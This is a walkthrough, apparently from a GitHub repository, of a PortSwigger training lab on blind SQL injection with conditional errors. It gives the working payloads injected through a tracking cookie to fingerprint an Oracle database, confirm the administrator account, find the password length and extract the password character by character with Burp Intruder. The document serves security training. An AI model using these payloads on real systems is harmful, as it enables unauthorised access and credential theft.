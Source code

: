 # Lab #12 - Blind SQL injection with conditional errors
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

Vulnerable parameter - tracking cookie


**End Goals:**
- Output the administrator password
- Login as the administrator user


**Analysis:**

1) Prove that parameter is vulnerable 

*Note for Burp: **ctrl + F5** to convert code*

```SQL
''
```
```SQL
' || (select '') || '
```
-> error 500 that means is not a MySQL Database
```SQL
' || (select '' from dual) || ' 
``` 
-> Oracle Database

```SQL
' || (select '' from sametablename) || ' 
```
-> error sametablename don't exist

2) Confirm that the users table exists in the database
```SQL
' || (select '' from users) || ' 
```
-> error 
```SQL
' || (select '' from users where rownum =1) || ' 
```
-> users table exists

3) Confirm that the administrator user exists in the users table
```SQL
' || (select '' from users where username='administrator') || ' 
```
```SQL
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 
```
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
```
-> Internal server error -> administrator user exists
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='sameuser') || ' 
```
-> 200 response -> user does not exist in database

4) Determine length of password
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>1) || ' 
```
-> 500 Internal Server error response at 1 -> length of password is greater than 1
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>50) || ' 
```
-> 200 response at 50 -> length of password is less than 50

send request to the BurpSuite Intruder --> Attak type "Sniper" Payload type "Numbers"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
```
-> 20 characters

5) Output the administrator password

```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || ' 
```
-> If 200 response at a --> a is not the first character of the password

send request to the BurpSuite Intruder -->  Attak type "Sniper" Payload type Brute forcer
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='§a§') || ' 
```
->  ***X*** is the first character of the password

Modify the request on BurpSuite Intruder -->  Attak type "Cluster bomb" first Payload type "Numbers" from 1 to 20 and the second Payload type "Brute forcer"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,§1§,1)='§a§') || ' 
```


